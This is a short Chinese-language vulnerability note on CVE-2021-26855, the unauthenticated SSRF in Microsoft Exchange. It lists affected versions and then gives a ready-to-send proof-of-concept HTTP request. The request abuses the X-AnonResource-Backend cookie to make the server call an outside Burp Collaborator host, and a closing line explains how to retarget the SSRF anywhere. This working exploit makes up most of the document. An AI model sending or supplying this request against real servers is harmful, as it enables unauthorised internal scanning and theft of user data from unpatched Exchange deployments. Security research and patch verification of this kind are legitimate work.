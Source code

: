 ```yaml
---
title: "CVE-2021-26855"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:07+08:00
tags: ["vuln"]
draft: false
---
```


Exchange SSRF 漏洞，攻击者可直接构造恶意请求，以 Exchange server 的身份发起任意
HTTP 请求，扫描内网，并且可获取 Exchange 用户信息。该漏洞利用无需身份认证。


## 影响版本 {#影响版本}

Exchange 2013 Versions &lt; 15.00.1497.012,

Exchange 2016 CU18 &lt; 15.01.2106.013,

Exchange 2016 CU19 &lt; 15.01.2176.009,

Exchange 2019 CU7 &lt; 15.02.0721.013,

Exchange 2019 CU8 &lt; 15.02.0792.010。


## poc {#poc}

```nil
GET /owa/auth/x.js HTTP/1.1
Host: IP
Connection: close
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://IP/owa/auth/logon.aspx?url=https%3a%2f%2PIp%2fowa%2f&reason=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: X-AnonResource=true; X-AnonResource-Backend=oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
```

x.js 可以随意构造，在 cookie 的 X-AnonResource-Backend 参数中设置 ssrf 目标，比
如上面的 oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net
